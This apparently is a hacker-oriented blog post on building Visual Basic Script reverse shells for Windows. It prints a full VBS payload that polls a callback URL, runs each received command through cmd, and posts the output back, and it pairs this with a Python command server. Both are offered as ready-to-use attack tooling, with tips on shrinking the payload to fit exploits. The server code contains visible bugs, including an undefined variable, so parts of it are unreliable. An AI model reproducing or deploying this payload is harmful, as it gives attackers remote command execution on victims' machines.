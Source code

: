 ==================
VBS Reverse Shells
==================

Introduction
============

**tl;dr:** https://github.com/cym13/vbs-reverse-shell

Reverse shells are scripts that provide shell access to remote users. They
are omnipresent when it comes to computer hacking as they allow the attacker
to transform a single often tedious command execution into an interactive
shell fit for further exploitation.

Most reverse shells scripts are in Bash, Perl or Python for Linux, or
Powershell for Windows. One may notice the lack of options when it comes to
hacking Windows computers: the fact is that if Powershell is available then
it should be used as it's a very powerful scripting language. But not all
Windows have Powershell, and in its absence one may wonder what to do.

We will explore another alternative for Windows systems: Visual Basic Script.

The language
============

VBS is a scripting language inspired by Microsoft's Visual Basic and created
in 1996. It has been the default Windows scripting language since Windows 98
and Windows Server NT 4.0 and is still available on Windows 10 today.

Long story short it's an awful language but it's powerful and resilient. It's
been used to attack computers for a long time and notably used for the famous
virus ILOVEYOU_.

.. _ILOVEYOU: https://en.wikipedia.org/wiki/ILOVEYOU

.. image:: ../image/mary_love_letter.png
    :width: 40%

*So if it's such a ubiquitous language, why isn't it already used for reverse
shells by most people?*

Well, the main reason is that VBS has no easy way to deal with raw sockets by
default. Reverse shells are usually about reading commands from a socket,
executing them, printing their output to the socket and looping over. No raw
socket API means that this simple strategy isn't so simple anymore.

What VBS has however is a way to perform web requests, so the strategy we'll
use is to encapsulate commands and outputs in HTTP requests. This will need a
specific server but it isn't much of an issue.

The payload
===========

The VBS payload will ask the callback server for commands through GET
requests, reading it from the response. It will then execute the command and
POST the output to the server. No response is expected at that point.

The good thing with that strategy is that it works. I mean, as we said
earlier, VBS has its limitations so getting a working reverse shell is worth
mentioning.

There are also some disadvantages:

- It is stateless, in particular this implementation doesn't allow the user
  to change directory or define variables. Each request is independent from
  the others.

- It's big. A `typical bash reverse shell`__ doesn't take more than 40 chars
  which can easily be concealed or transmitted through narrow buffers. Our
  script is 20 times bigger than that.

- It cannot be transformed into a full TTY shell easily. This means that
  commands that would interactively ask for user input will fail.

.. _bashrs: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

__ bashrs_

An interesting implementation detail though: by using *On Error Resume Next*
we tell the script not to stop on errors. This way, even if we're stalled or
if the connection with the server is lost the script will just retry again
and give us the hand back. We're never stuck (although we may have to wait a
few minutes).

For this reason we defined an exit flag: *EXIT*. This allows us to shut the
script down properly.

Without further delay, here is the full payload I use:

.. code:: vbnet

    Option Explicit
    On Error Resume Next

    CONST callbackUrl = "http://localhost:80/"

    Dim xmlHttpReq, shell, execObj, command, break, result

    Set shell = CreateObject("WScript.Shell")

    break = False
    While break <> True
        Set xmlHttpReq = WScript.CreateObject("MSXML2.ServerXMLHTTP")
        xmlHttpReq.Open "GET", callbackUrl, false
        xmlHttpReq.Send

        command = "cmd /c " & Trim(xmlHttpReq.responseText)

        If InStr(command, "EXIT") Then
            break = True
        Else
            Set execObj = shell.Exec(command)

            result = ""
            Do Until execObj.StdOut.AtEndOfStream
                result = result & execObj.StdOut.ReadAll()
            Loop

            Set xmlHttpReq = WScript.CreateObject("MSXML2.ServerXMLHTTP")
            xmlHttpReq.Open "POST", callbackUrl, false
            xmlHttpReq.Send(result)
        End If
    Wend

The server
==========

A special client means a special server. I choose to do it in Python for
its portability. I decided to use raw sockets and build an HTTP facade on top
of it. This is because I fear that what we exchange through this tunnel
will not always be proper HTTP requests and I don't want a real HTTP server
to helpfully throw exceptions every time it encounters badly formed requests.

The thing is, we don't need to handle real HTTP requests, just to distinguish
GET requests from POST ones. And that's exactly what we do:

.. code:: python

    #!/usr/bin/env python3

    import socketserver

    PORT=80

    class CmdHttpHandler(socketserver.BaseRequestHandler):
        def handle(self):
            self.data = self.request.recv(2**14).strip().decode("UTF-8")

            if len(data) == 0:
                return

            elif self.data.splitlines()[0].startswith("GET"):
                command = input("%s > " % self.client_address[0]).encode("UTF-8")

                response = (b"HTTP/1.1 200\ncontent-length: "
                            + str(len(command)).encode("UTF-8")
                            + b"\n\n"
                            + command)

                self.request.sendall(response)


            elif self.data.splitlines()[0].startswith("POST"):
                data = self.request.recv(2**14).strip().decode("UTF-8")
                print(data)
                print()

                response = (b"HTTP/1.1 200\ncontent-length: 0\n\n")
                self.request.sendall(response)
                return


            else:
                print(self.data.decode("UTF-8"))
                response = (b"HTTP/1.1 300\ncontent-length: 0\n\n")
                self.request.sendall(response)


    def main():
        print("To close connection enter 'EXIT'")
        print("The computer may be stalled by some commands, just try again")
        print()

        with socketserver.TCPServer(("0.0.0.0", PORT), CmdHttpHandler) as server:
            server.serve_forever()


    if __name__ == "__main__":
        main()

Conclusion
==========

When I first encountered a case where I needed a non-Powershell Windows
reverse shell I was frustrated not to find any. Hopefully nobody will be in
this situation anymore.

The VBS code may be minimized to better fit in a tight exploit, but I don't
think it will account for much. I'm guessing something like 700 bytes is the
limit. I would be very glad if you were to prove me wrong though!

.. image:: ../image/aihara_enju.png
    :width: 60%

Image sources
-------------

- https://fluffyqueenz.deviantart.com/art/OC-Will-you-accept-my-love-letter-senpai-678491065
- https://www.quora.com/Whats-the-best-loli-anime
